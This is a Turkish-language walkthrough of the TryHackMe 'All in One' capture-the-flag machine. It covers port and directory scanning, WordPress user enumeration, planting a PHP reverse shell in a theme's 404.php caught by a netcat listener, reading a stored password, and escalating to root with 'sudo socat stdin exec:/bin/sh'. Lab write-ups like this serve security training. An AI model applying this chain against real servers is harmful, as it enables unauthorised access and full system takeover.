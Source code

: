 ```yaml
---
title: "All in One Makine Çözümü"
date: "2025-03-22"
tags: ["ctf", "tryhackme"]
---
```


Merhabalar, bu yazımda sizlere TryHackMe platformunda bulunan “All in One” isimli makinenin çözümü anlatacağım. Keyifli Okumalar…

1 - Nmap aracını kullanarak makine üzerindeki açık portlar ve servisler hakkında detaylı bilgi ediniyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# nmap -sS -sV 10.10.108.156
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-13 04:07 EDT
Nmap scan report for 10.10.108.156
Host is up (0.068s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

2 - Dizin taraması yapıyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# gobuster dir -u http://10.10.108.156 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.108.156
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/06/13 04:09:42 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 318] [--> http://10.10.108.156/wordpress/]
/hackathons           (Status: 200) [Size: 197]
```

3 - "/hackathons" dizininde "Vigenere" ile şifrelenmiş bir parola buluyorum. KeepGoing anahtarı ile parolayı çözüyorum.

```system
<h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>
*
*
*
<!-- *CENSORED* -->
<!-- KeepGoing -->
```

4 - "wpscan" aracı ile wordpress kullanıcılarını buluyorum. Bulduğum parolayı "elyana" kullanıcısı için deniyorum fakat giriş yapamıyorum. Parolanın sadece 2. kelimesini girdiğimde başarılı bir şekilde giriş yapıyorum.

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# wpscan --url http://10.10.108.156/wordpress -e u
*
*
*
[i] User(s) Identified:

[+] elyana
```

5 -  Wordpress sitesine girince "Appearance -> Theme Editor -> 404.php" dosyasına bir php reverse shell yerleştiriyorum. Daha sonra aşağıdaki dizine gidip bağlantıyı kuruyorum.

```system
http://10.10.108.156/wordpress/wp-content/themes/twentytwenty/404.php
```

```system
┌──(root㉿kali)-[/home/kali/Downloads]
└─# nc -lvnp 4444             
listening on [any] 4444 ...
connect to [10.8.94.51] from (UNKNOWN) [10.10.108.156] 55022
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:19:37 up 17 min,  0 users,  load average: 0.00, 0.14, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

6 - Dizinleri dolaşırken "elyana" kullanıcısının dizininde "hint.txt" adında bir dosya görüyorum. Dosyayı okuduğumda "elyana" kullanıcısının parolasının sistemde bir yerde saklı olduğunu söylüyor.

```system
$ SHELL=/bin/bash script -q /dev/null
bash-4.4$ ls
ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
bash-4.4$ cd home
cd home
bash-4.4$ ls
ls
elyana
bash-4.4$ cd elyana
cd elyana
bash-4.4$ ls
ls
hint.txt  user.txt
bash-4.4$ cat hint.txt
cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
```

7 - Sistem üzerinde çalışan servislere baktığım zaman "3306" portunda bir mysql servisi çalıştığını görüyorum. "/etc" dizini altındaki mysql klasörüne girdiğimde "private.txt" dosyasını buluyorum. Dosyanın içinde "elyana" kullanıcısının parolası yazıyor.

```system
netstat -tuna
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN
*
*
bash-4.4$ cd /etc/mysql
cd /etc/mysql
bash-4.4$ ls
ls
conf.d        debian.cnf   mariadb.conf.d  my.cnf.fallback
debian-start  mariadb.cnf  my.cnf
bash-4.4$ cat conf.d
cat conf.d
cat: conf.d: Is a directory
bash-4.4$ cd conf.d
cd conf.d
bash-4.4$ ls
ls
mysql.cnf  mysqldump.cnf  private.txt
bash-4.4$ cat private.txt
cat private.txt
user: elyana
password: *CENSORED*
```

8 - Elyana kullanıcısına geçtikten sonra ev dizininde ilk bayrağımı elde ediyorum.

```system
bash-4.4$ cd /home
cd /home
bash-4.4$ ls
ls
elyana
bash-4.4$ cd elyana
cd elyana
bash-4.4$ cat user.txt
cat user.txt
*CENSORED*
bash-4.4$ cat user.txt | base64 -d
cat user.txt | base64 -d
*CENSORED*
```

9 - Sudo yetkisi ile çalıştırabileceğim komutları görüntülediğimde "socat" komutunu sudo yetkisi ile çalıştırabildiğimi görüyorum. GTFObins sitesinden bu yetkisi suistimal edecek komutu öğrenip root kullanıcısına geçiyorum. Daha sonra ikinci bayrağımı elde ediyorum.

```system
bash-4.4$ sudo -l
sudo -l
Matching Defaults entries for elyana on elyana:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat
bash-4.4$ sudo socat stdin exec:/bin/sh
sudo socat stdin exec:/bin/sh
ls
ls
hint.txt
user.txt
whoami
whoami
root
cat /root/root.txt
cat /root/root.txt
*CENSORED*
cat /root/root.txt | base64 -d
cat /root/root.txt | base64 -d
*CENSORED*
```